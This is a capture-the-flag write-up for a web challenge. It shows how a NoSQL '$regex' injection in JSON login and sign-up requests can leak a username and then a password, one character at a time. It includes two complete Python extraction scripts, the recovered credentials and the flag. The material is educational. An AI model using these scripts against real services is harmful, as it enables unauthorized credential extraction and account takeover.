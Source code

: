 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day22_description1.png">
<img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day22_description2.png">

I used Burp Suite where I saw the `/sign-up` call. I investiged furthere and I found out that if I send a `POST` request there I would receive:

```text
Sign ups are disabled at the moment. Your username is available, though!
```

This messages suggests that if the correct username would be used a different message will be displayed. After attempting to bruteforce it using common usernames and after some 
searching I found that in Json regex could be used. So I could try to look for each char in the password at a time using:

```Json
"username":  { "$regex": "^a" }
```

So I developed a script that does that:

```python
import itertools
import requests
import json
import re

url = "https://kunal-consulting.csd.lol/sign-up"

username=""
character_set = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

def attempt_login(char):

    global username

    payload = {
  "username": { "$regex": f"^{username+char}" },
  "password": "randompassword"
}
    headers = {
        "Content-Type": "application/json"
    }

    try:
        response = requests.post(url, data=json.dumps(payload), headers=headers)

        if "Your username is available, though!" not in response.text:
            print(f"[+] Success! char: {char} ")
            print(f"Response: {response.text}")
            username+=char
            return True
        else:
            #print(f"Response: {response.text}")
            return False
    except Exception as e:
        print(f"[!] Error: {e}")
        return False


cont=True

while cont:
    cont=False
    for char in character_set:
        print(f"Trying {char}")
        if attempt_login(char):
            print(username)
            cont=True
            break

print("Username is:")
print(username)

```

Now having the username which is `XhaNy22` I tried to bypass the password check somehow. Finally, I tried to do a similar approach as for the username
this time in the `/login` endpoint:



```python
import itertools
import requests
import json
import re


url = "https://kunal-consulting.csd.lol/login"

# username_file = "test.txt"
# with open(username_file, "r") as pf:
#     usernames = [line.strip() for line in pf if username_regex.match(line.strip())]

# password_file = "passwords.txt"
# with open(password_file, "r") as pf:
#     passwords = [line.strip() for line in pf if password_regex.match(line.strip())]

username="XhaNy22"
character_set = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_"
password="reasons"

def attempt_login(char):

    global username,password

    payload = {
  "username": username,
  "password": { "$regex": f"^{password+char}" }
}
    headers = {
        "Content-Type": "application/json"
    }

    try:
        response = requests.post(url, data=json.dumps(payload), headers=headers)

        if "Incorrect username/password" not in response.text:
            print(f"[+] Success! char: {char} ")
            print(f"Response: {response.text}")
            password+=char
            return True
        else:
            #print(f"[-] Failed: char: {char} ")
            #print(f"Response: {response.text}")
            return False
    except Exception as e:
        print(f"[!] Error: {e}")
        return False


cont=True

while cont:
    cont=False
    for char in character_set:
        print(f"Trying {char}")
        if attempt_login(char):
            print(username)
            cont=True
            break

print("password is:")
print(password)

```

The password is `reasons_i_use_a_really_long_password_1_security_2_to_practice_my_typing_skills_3_to_mess_with_you`, then I logged in in the `/employee-login` endpoint and got the flag.



`csd{cOn5uL7iN9_CHIldR3N_5InC3_2009}`
